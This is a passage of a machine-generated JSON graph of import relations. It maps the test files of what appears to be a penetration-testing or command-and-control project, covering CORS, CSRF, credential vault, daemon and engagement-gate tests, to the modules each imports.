"EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "threat_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "threat_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "threat_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "threat_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "threat_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "threat_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "threat_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "threat_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "threat_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "threat_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "threat_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "atomic_enricher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "atomic_enricher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "atomic_enricher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "atomic_enricher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "atomic_enricher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "atomic_enricher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "atomic_enricher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "atomic_enricher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "atomic_enricher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_parquet_db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cors_behavior.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cors_behavior.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cors_behavior.py", "target": "lazyc2.security.cors"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cors_policy.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cors_policy.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cors_policy.py", "target": "lazyc2.security.cors"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cors_socketio_regression.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cors_socketio_regression.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cors_socketio_regression.py", "target": "lazyc2.security.cors"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_credential_vault.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_credential_vault.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_credential_vault.py", "target": "core.credential_vault"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_credentials_rotation.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_credentials_rotation.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_credentials_rotation.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_credentials_rotation.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_credentials_rotation.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_credentials_rotation.py", "target": "cli.commands.cred_migrated"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_csrf_behavior.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_csrf_behavior.py", "target": "lazyc2.security.csrf"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_csrf_policy.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_csrf_policy.py", "target": "lazyc2.security.csrf"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_control.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_control.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_control.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_control.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_control.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_control.py", "target": "daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "cli.commands._dormancy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "cli.commands.daemon_ctl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "cli.commands.daemon_ctl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "cli.commands.daemon_ctl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "cli.registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "cli.commands.daemon_ctl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_ctl_command_set.py", "target": "cli.commands.misc_migrated"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_loop.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_loop.py", "target": "asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_loop.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_loop.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_loop.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_loop.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_loop.py", "target": "modules.planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_loop.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_loop.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_loop.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_loop.py", "target": "lazyown_objective"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_loop.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_loop.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_loop.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_daemon_loop.py", "target": "modules.obs_parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_routes.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_routes.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_routes.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_routes.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_routes.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_routes.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_routes.py", "target": "flask_login"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_routes.py", "target": "modules.dashboard_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_routes.py", "target": "modules.dashboard_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_routes.py", "target": "modules.dashboard_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_routes.py", "target": "modules.dashboard_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_tui.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_tui.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_tui.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_tui.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_tui.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_tui.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dashboard_tui.py", "target": "cli.dashboard_tui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_db.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_db.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_db.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_db.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_db.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_db.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_db.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dependencies.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dependencies.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dependencies.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dependencies.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dependencies.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_dependencies.py", "target": "core.dependencies"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_detection_feed.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_detection_feed.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_detection_feed.py", "target": "modules.detection_feed"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_detection_feed.py", "target": "modules.detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_docs_drift_contract.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_docs_drift_contract.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_docs_drift_contract.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_docs_drift_contract.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_doctor.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_doctor.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_doctor.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_doctor.py", "target": "cli"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_doctor.py", "target": "cli.wizard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_encoding_command_set.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_encoding_command_set.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_encoding_command_set.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_encoding_command_set.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_encoding_command_set.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_encoding_command_set.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_encoding_command_set.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_encoding_command_set.py", "target": "cli.commands._dormancy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_encoding_command_set.py", "target": "cli.commands.encoding"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_encoding_command_set.py", "target": "cli.commands.encoding"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_encoding_command_set.py", "target": "cli.commands.encoding"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_encoding_command_set.py", "target": "cli.registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_encoding_command_set.py", "target": "cli.commands.encoding"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_encoding_command_set.py", "target": "cli.commands.misc_migrated"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "modules.intercept"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "modules.planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "modules.planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "cli.reasoning_stream"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_gates.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "importlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "importlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_orchestrator.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_summary.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_summary.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_summary.py", "target": "modules.engage_summary"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engage_summary.py", "target": "modules.evidence"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_and_ping.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "cli.engagement_hooks"}, 